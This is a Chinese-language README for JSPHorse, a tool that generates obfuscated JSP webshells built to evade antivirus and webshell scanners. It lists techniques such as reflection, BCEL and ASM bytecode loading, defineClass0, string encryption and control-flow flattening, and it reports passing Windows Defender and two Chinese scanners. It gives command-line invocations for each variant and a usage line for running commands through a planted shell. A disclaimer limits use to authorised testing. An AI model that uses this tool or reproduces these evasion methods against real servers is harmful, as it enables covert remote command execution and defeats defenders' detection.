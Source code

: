 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

一个JSP免杀Webshell生成器，主要支持普通回显Webshell，也实现了蚁剑的免杀

生成代码技术基于AST库`JavaParser`和字节码操作框架`ASM`

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

主要的免杀技术：

- 基本的Java反射调用免杀
- BCEL格式字节码反射加载免杀
- ScriptEngine调用JS免杀
- Javac动态编译class免杀
- java.beans.Expression免杀
- 自定义ClassLoader加载字节码免杀
- native方法defineClass0加载字节码免杀
- ASM直接构造字节码(普通和BCEL)并加载执行免杀

代码生成方式：

- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

![](https://github.com/EmYiQing/JSPHorse/blob/master/img/01.png)

在Github右侧Release页面下载

- 生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

- 生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

- 生成Javac动态编译class的Webshell

`java -jar JSPHorse.jar -p your_password --javac`

- 使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

- 使用Expression免杀

`java -jar JSPHorse.jar -p your_password --expr`

- 使用自定义ClassLoader加载字节码

`java -jar JSPHorse.jar -p your_password --classloader`

- 用ASM动态生成字节码使用自定义ClassLoader加载

`java -jar JSPHorse.jar -p your_password --classloader-asm`

- 加载BCEL字节码免杀（动态构造字节码）

`java -jar JSPHorse.jar -p your_password --bcel`

- 用ASM动态生成BCEL字节码免杀

`java -jar JSPHorse.jar -p your_password --bcel-asm`

- 使用Proxy类的native方法`defineClass0`加载字节码

注意：原理是在JVM中注册类，不允许重复，所以这种马只能执行一次命令然后失效

但`JSPHorse`从字节码层面构造了不同的类，如果想要多次执行只要重复生成多个马即可

`java -jar JSPHorse.jar -p your_password --proxy`

- 使用`defineClass0`加载ASM直接构造的字节码

注意：原理同上，只能执行一次

但`JSPHorse`每次生成的类名不一致，可以重新生成来做多次执行

`java -jar JSPHorse.jar -p your_password --proxy-asm`

- 任何一种方式加入`-u`参数进行Unicode编码（有时候有奇效）

`java -jar JSPHorse.jar -p your_password --expr -u`

- 使用`-o`指定输出文件，默认输出到`result.jsp`

`java -jar JSPHorse.jar -p your_password -o 1.jsp`

- 如何使用

1. 普通情况：`1.jsp?pwd=your_password&cmd=ipconfig`

2. 蚁剑：正常使用

## 其他

### 推荐

从混淆程度来看，最高的应该是以下几种，也许会有较高的免杀效果

1. ASM动态生成BCEL字节码并加载：`--bcel-asm -u`
2. 使用ScriptEngine加载JS：`--js -u`
3. 使用Javac动态编译：`--javac -u`

### 计划

后续计划：
1. 参考网上已有的免杀Webshell思路以及各种新姿势逐渐完善
2. 目前在从代码方面混淆，是否可以尝试从字节码层面混淆以实现免杀
3. 是否可以多种免杀手段随机组合，生成再进一步的免杀Webshell


## 感谢

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考su18师傅的`defineClass0`方式：https://github.com/su18

## 免责申明

**未经授权许可使用`JSPHorse`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


